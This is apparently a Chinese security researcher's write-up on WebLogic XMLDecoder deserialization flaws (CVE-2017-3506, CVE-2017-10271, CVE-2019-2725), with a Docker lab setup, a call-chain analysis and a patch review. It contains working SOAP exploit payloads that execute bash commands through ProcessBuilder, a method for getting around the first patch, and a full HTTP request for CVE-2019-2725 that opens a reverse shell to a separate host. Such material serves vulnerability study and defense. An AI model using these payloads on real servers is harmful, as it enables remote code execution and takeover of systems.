# Weblogic


[TOC]


## 环境搭建

笔者比较喜欢使用docker来搭建各种调试环境，由于weblogic的搭建过于麻烦，所以上网搜索了一下，从github上找到了奇安信大佬们的一个weblogic启环境的repo。

[传送门](https://github.com/QAX-A-Team/WeblogicEnvironment)

### 准备工作：

1. 下载相应版本的JDK放在repo下的`jdks/`目录
2. 下载相应版本的jar包放在repo下的`weblogics/`目录

JDK安装包下载地址：

https://www.oracle.com/technetwork/java/javase/archive-139210.html 

Weblogic安装包下载地址：

https://www.oracle.com/technetwork/middleware/weblogic/downloads/wls-for-dev-1703574.html 


### 构建运行

回到根目录，执行Docker构建镜像命令：

```
docker build --build-arg JDK_PKG=<YOUR-JDK-PACKAGE-FILE-NAME> --build-arg WEBLOGIC_JAR=<YOUR-WEBLOGIC-PACKAGE-FILE-NAME>  -t <DOCKER-IMAGE-NAME> .
```

镜像构建完成后，执行以下命令运行：

```
docker run -d -p 7001:7001 -p 8453:8453 -p 5556:5556 --name <CONTAINER-NAME> <DOCKER-IMAGE-NAME-YOU-JUST-BUILD>
```

以Weblogic12.1.3配JDK 7u21为例，构建镜像命令如下：

```
docker build --build-arg JDK_PKG=jdk-7u21-linux-x64.tar.gz --build-arg WEBLOGIC_JAR=fmw_12.1.3.0.0_wls.jar  -t weblogic12013jdk7u21 .
```

镜像构建完成后，执行以下命令运行：

```
docker run -d -p 7001:7001 -p 8453:8453 -p 5556:5556 --name weblogic12013jdk7u21 weblogic12013jdk7u21
```

运行后可访问`http://localhost:7001/console/login/LoginForm.jsp`登录到Weblogic Server管理控制台，默认用户名为`weblogic`,默认密码为`qaxateam01`


### 远程Debug

把需要调试的目录通过docker compose的volumns或者docker cp的方式copy出来就好，repo中也提供了脚本


需要在`weblogic_install11g.sh`脚本中添加一行

```
yum install -y libnsl
```

否则使用jdk 6u25的时候会报错


下面的大部分CVE所使用的调试环境都是

```
Weblogic10.3.6
Jdk-6u25
IDEA
```


## CVE-2017-3506 Weblogic XMLDecoder反序化


### 漏洞分析

> 漏洞触发位置：wls-wsat.war
>
> 漏洞触发URL：/wls-wsat/CoordinatorPortType（POST）
>
> 漏洞原因综述：wls-wsat.war组件使用了weblogic自带的webservices处理程序来处理SOAP请求， 获取XML数据后传递给XMLDecoder来解析，XMLDecoder可以导致RCE


middleware/wlserver/server/lib/wls-wsat.war!/WEB-INF/web.xml


该漏洞的调用链：

```
<init>:19, WorkContextXmlInputAdapter (weblogic.wsee.workarea)
readHeaderOld:106, WorkContextTube (weblogic.wsee.jaxws.workcontext)
processRequest:43, WorkContextServerTube (weblogic.wsee.jaxws.workcontext)
```


### 调试分析

在` weblogic.wsee.jaxws.workcontext.WorkContextServerTube.processRequest `处接收传递来的XML数据，存在packet对象var1处



packet类在`middleware/modules/glassfish.jaxws.rt_1.3.0.0_2-1-5.jar!/com/sun/xml/ws/api/message/Packet.class`处定义，调用var1的getMessage方法得到message的内容，再调用getHeaders获取到header内容，因此var2里放的就是header的内容。

```
<soapenv:Header>
<work:WorkContextxmlns:work="http://bea.com/2004/06/soap/workarea/">
<java>
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>touch /tmp/success</string>
</void>
</array>
<void method="start"/>
</void>
</java>
</work:WorkContext>
</soapenv:Header>
```

var2是HeaderList对象，HeaderList类在`middleware/modules/glassfish.jaxws.rt_1.3.0.0_2-1-5.jar!/com/sun/xml/ws/api/message/HeaderList.class`中定义，调用其get方法



获取指定标签内的内容



也就是发送的SOAP内容中的部分

```
<work:WorkContextxmlns:work="http://bea.com/2004/06/soap/workarea/">
<java>
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>touch /tmp/success</string>
</void>
</array>
<void method="start"/>
</void>
</java>
</work:WorkContext>
```

把var3作为参数传入readHeaderOld方法中




` weblogic.wsee.jaxws.workcontext.WorkContextTube.readHeaderOld `



在readHeaderOld方法中，创建了WorkContextXmlInputAdapter()对象（即对WorkContextXmlInputAdapter类进行了实例化），带入构造函数的参数即为传入的XML格式序列化数据（其中就包含了我们的payload）。

查看WorkContextXmlInputAdapter类

` weblogic.wsee.workarea.WorkContextXmlInputAdapter `



此处调用了XMLDecoder，而这个函数是可以导致RCE的


### 漏洞复现

poc中的payload如下




执行



成功




### 补丁分析


```
private void validate(InputStream is) {
WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
try {
SAXParser parser = factory.newSAXParser();
parser.parse(is, new DefaultHandler() {
public void startElement(String uri, String localName, String qName,Attributes attributes) throws SAXException {
if(qName.equalsIgnoreCase(“object”)){
throw newIllegalStateException(“Invalid context type: object”);
}
}
});
} catch (ParserConfigurationException var5) {
throw new IllegalStateException(“Parser Exception”, var5);
} catch (SAXException var6) {
throw new IllegalStateException(“Parser Exception”, var6);
} catch (IOException var7) {
throw new IllegalStateException(“Parser Exception”, var7);
}
}
```

在对xml的解析过程中，如果qName的值是Object时将会抛出异常也就是，该补丁只是简单的检查了XML中是否包含了`<object>`节点，然后将`<object>`换为`<void>`即可绕过此补丁 


## CVE-2017-10271 Weblogic XMLDecoder反序化


### 漏洞分析

> 漏洞触发位置：wls-wsat.war
>
> 漏洞触发URL：/wls-wsat/CoordinatorPortType（POST）
>
> 漏洞原因综述：在CVE-2017-3506的时候，官方只是简单的做了个黑名单校验，判断xml中是否有object对象，只需要换成void对象就又可以触发漏洞


### 漏洞复现


```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java>
        <void class="java.lang.ProcessBuilder">
          <array class="java.lang.String" length="3">
            <void index="0">
              <string>/bin/bash</string>
            </void>
            <void index="1">
              <string>-c</string>
            </void>
            <void index="2">
              <string>touch /tmp/Mote22</string>
            </void>
          </array>
        <void method="start"/></void>
      </java>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```

可以看到把object对象换成了void对象，其余不变







对于wls-wsat.war包的入口，如果/wls-wsat/CoordinatorPortType不行，可以尝试换别的接口

接口定义在`middleware/wlserver/server/lib/wls-wsat.war!/WEB-INF/web.xml`


### CVE-2019-2725


```
POST /_async/AsyncResponseService HTTP/1.1
Host: 192.168.78.163:7001
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
SOAPAction: ""
Content-Type: text/xml;charset=UTF-8
fileName: 123.jsp
Content-Length: 785
Connection: close

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.78.1/81 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```

